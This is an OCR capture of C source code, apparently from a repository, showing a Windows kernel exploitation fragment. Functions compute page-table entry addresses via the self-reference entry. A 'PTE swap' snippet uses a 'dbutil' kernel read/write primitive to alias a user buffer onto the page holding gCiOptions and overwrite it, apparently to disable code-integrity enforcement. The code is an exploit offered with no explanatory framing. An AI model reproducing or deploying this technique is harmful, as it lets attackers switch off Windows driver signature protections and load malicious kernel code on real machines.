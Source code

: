 ```c
    return Canonicalize(va);
}

ULONG64 GetVAToPDeVA(ULONG64 vaddr, ULONG64 selfRef) {
    ULONG64 PML4i = (vaddr >> 39) & 0x1FF;
    ULONG64 PDPTi = (vaddr >> 30) & 0x1FF;
    ULONG64 PDEi  = (vaddr >> 21) & 0x1FF;
    ULONG64 va = (selfRef << 39) | (selfRef << 30) | (PML4i << 21) | (PDPTi << 12) | (PDEi << 3);
    return Canonicalize(va);
}

ULONG64 GetVAToPTeVA(ULONG64 vaddr, ULONG64 selfRef) {
    ULONG64 PML4i = (vaddr >> 39) & 0x1FF;
    ULONG64 PDPTi = (vaddr >> 30) & 0x1FF;
    ULONG64 PDEi  = (vaddr >> 21) & 0x1FF;
    ULONG64 PTEi  = (vaddr >> 12) & 0x1FF;

    ULONG64 va = (selfRef << 39) |
                 (PML4i << 30) |
                 (PDPTi << 21) |
                 (PDEi << 12) |
                 (PTEi << 3);
    return Canonicalize(va);
}
```

---

# PTE swap snippet

```c
ULONG64 ptr_PTEe_VA_BAK = 0;
ULONG64 gCi_e_content = 0;
ULONG64 ptr_e_content = 0;

// read current PTE contents
dbutil.ReadMemory(ptr_PTEe_VA, &ptr_e_content, sizeof(ULONG64));
dbutil.ReadMemory(gCi_PTEe_VA, &gCi_e_content, sizeof(ULONG64));

printf("[*] gCiOptions PTE Content: 0x%llx\n", gCi_e_content);
printf("[*] ptr        PTE Content: 0x%llx\n", ptr_e_content);

ptr_PTEe_VA_BAK = ptr_e_content;

// extract PFN (bits 12-51)
ULONG64 gCi_pfn = (gCi_e_content >> 12) & 0xFFFFFFFFFFULL;

// clear bits 12-51 of our buffer's PTE
ptr_e_content &= ~(0xFFFFFFFFFFULL << 12);

// insert new PFN bits
ptr_e_content |= (gCi_pfn << 12);

// write modified PTE (aliasing the page)
dbutil.WriteMemory(ptr_PTEe_VA, &ptr_e_content, sizeof(ULONG64));

// sanity read & print
dbutil.ReadMemory(ptr_PTEe_VA, &ptr_e_content, sizeof(ULONG64));
printf("[*] ptr (mod)  PTE Content: 0x%llx\n", ptr_e_content);

// write to the user buffer which now aliases the kernel page
ULONG64 test = 0xe;
memcpy((PBYTE)ptr + (sym.GciOptions & 0xFFF), &test, sizeof(ULONG64));
```